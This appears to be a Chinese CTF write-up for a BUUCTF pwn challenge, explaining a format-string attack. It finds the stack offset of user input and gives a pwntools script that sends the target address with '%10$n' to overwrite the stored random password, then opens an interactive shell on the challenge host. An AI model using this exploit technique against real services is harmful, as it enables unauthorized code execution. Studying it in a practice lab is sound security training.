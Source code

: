 

可以看到主要逻辑就是程序随便取一个数，然后你上传用户名字，然后密码要和程序取的随机数要一样，才能够执行系统函数



![image-20241027151801312](../_media/image-20241027151801312.png)

已知这个随机数存储在 `0x0804C044` 



然后我们看一下printf出来的地址在哪里？

![image-20241027152103572](../_media/image-20241027152103572.png)



a小写字母为61，所以输出就是61616161

那就数数嘛，一个.为分隔符

然后数到10

所以可以肯定后面就是 `%10$n`



然后密码部分就和 `dword_804C044` 

```python
from pwn import *

r=remote('node5.buuoj.cn',29211)

target=0x804c044
pay=p32(target)+b'%10$n'        

r.recvuntil(':')
r.sendline(pay)

r.recvuntil(':')
r.sendline(str(4))     #写入了四字节，因此此处应写入4

r.interactive()
```

